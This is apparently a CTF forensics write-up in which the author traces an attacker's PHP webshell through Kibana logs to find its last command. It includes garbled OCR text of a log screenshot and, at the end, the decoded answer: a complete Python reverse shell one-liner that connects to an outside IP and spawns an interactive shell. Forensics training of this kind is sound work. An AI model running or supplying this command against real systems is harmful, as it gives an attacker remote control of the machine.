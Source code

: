 # Blue's Clues 6/8: Discovery
> Is that... a webshell?

> We can see the commands that were executed by the attacker. However, we don't see any command hinting at the creation of the rogue user in gitlab. There must be an intermediary step.

> What is the last command executed by the webshell?

> Flag format: <decoded_command> Not case sensitive, but keep special chars.

> Example: ls -latr

## About the Challenge
We need to find the last command executed by webshell

## How to Solve?
By using the same KQL syntax, I searched the logs one by one and check when the attacker stop accessing the webshell. And we found the last command was reverse shell command


[Image extracted text: logs-
url extension
php and http response status_code
200
Expanded document
View:
Single document
Surrounding documents
K <
5 of 246
X1
hostn
246 hits
Available fields
250
source
geo
region_name
Quebec
200
150
hosthostname
100
source
158. 69.62.65
observerhostname
May
June
July
August
2022
tags
apache-access
Apr 15,2022
Empty fields
url
extension
php
url.original
{uploads/ce52790629679d930ca16c39a4f619c3.ph
No fields match the selected filters.
Documents
Field statistics
p?command-python3820-c820r27import"2Osocket"2
Try:
1 field sorted
Csubprocess"2Cos 3Bs"3Dsocket
socket(socket
Using different field filters
INETS2Csocket
SOCk_STREAM)%3Bs
connect(
8622
@timestamp
Document
158.69.62.658228208080
%3Bos. dup2
fileno
CECD
'010'
Meta fields
()82c0
93B8200s
dup2
fileno
82C1 )%3B8200s
TaObf059-f1c9-4a33-980
dup2 ( s
fileno
92C2)%3Bp83Dsubprocess.call(
resses
88 . 126. 185.165
22 2Fbin 2Fsh 2282C922-1922]
963B927
ype
Standard_B2s
cloud
Apr
12 ,
2023
21:59:00.045
url
extension
php
@tin
url
path
(uploads/ce52790629679d930ca16c39a4f619c3 . php
ZaObf05g-f1c9-4a33-980:
t.ip
88 . 126 . 185.165
url
query
command-python3
import
socket
subprocess
s=socket
socket
socket.AF_INET
socket. SOCK
WebServer01
cloud. mach-
STREAM)
connect
158. 69.62.65" , 8080) ) ;os
Apr 12 ,
2023
21:59:00.000
url
extension
php
@tin
dup2
fileno( ) , 0)
dup2 ( s.fileno( ) , 1) ;
TaObf059-f1c9-4a33-980
dup2 ( s
fileno() ,2) ;pzsubprocess.call( ['
Ibi
resses
88 . 126 .185.165
n/sh
-i"))
ype
Standard_B2s
cloud
user_agent
device
name
Other
Apr
12 ,
2023
09:32:31.000
url
extension
php
@tin
Rows per page: 500
user_
agent
name
Firefox]


```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("158.69.62.65",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```